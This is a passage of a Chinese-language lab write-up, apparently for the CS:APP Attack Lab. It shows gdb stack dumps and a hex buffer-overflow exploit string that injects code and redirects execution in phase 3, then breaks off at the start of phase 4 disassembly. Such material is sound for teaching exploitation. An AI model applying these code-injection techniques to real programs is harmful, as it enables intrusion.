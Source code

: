 调试得到栈顶地址(注入代码地址)：0x5560a898
```c
(gdb) x/80xb $rsp
0x5560a898:     0x5f    0xc3    0x00    0x00    0x00    0x00    0x00    0x00
0x5560a8a0:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5560a8a8:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5560a8b0:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5560a8b8:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5560a8c0:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5560a8c8:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5560a8d0:     0x98    0xa8    0x60    0x55    0x00    0x00    0x00    0x00
0x5560a8d8:     0x37    0x33    0x38    0x35    0x66    0x65    0x39    0x66
0x5560a8e0:     0x16    0x19    0x40    0x00    0x00    0x00    0x00    0x00
```
调整后字符串地址为0x5560a8e8 ， 所以pop取出的地址也为0x5560a8e8（字符串地址）
```c
(gdb) x/96xb $rsp
0x5560a898:     0x5f    0xc3    0x00    0x00    0x00    0x00    0x00    0x00
0x5560a8a0:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5560a8a8:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5560a8b0:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5560a8b8:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5560a8c0:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5560a8c8:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5560a8d0:     0x98    0xa8    0x60    0x55    0x00    0x00    0x00    0x00
0x5560a8d8:     0xe0    0xa8    0x60    0x55    0x00    0x00    0x00    0x00
0x5560a8e0:     0x16    0x19    0x40    0x00    0x00    0x00    0x00    0x00
0x5560a8e8:     0x37    0x33    0x38    0x35    0x66    0x65    0x39    0x66
0x5560a8f0:     0x00    0xf4    0xf4    0xf4    0xf4    0xf4    0xf4    0xf4
```
**答案：**
```txt
5f c3 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
98 a8 60 55 00 00 00 00
e8 a8 60 55 00 00 00 00
16 19 40 00 00 00 00 00
37 33 38 35 66 65 39 66
```

### phase4 
注入代码(每行在后面加个ret (c3)):
```c
inject_code.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	58                   	pop    %rax
   1:	89 c7                	mov    %eax,%edi
```
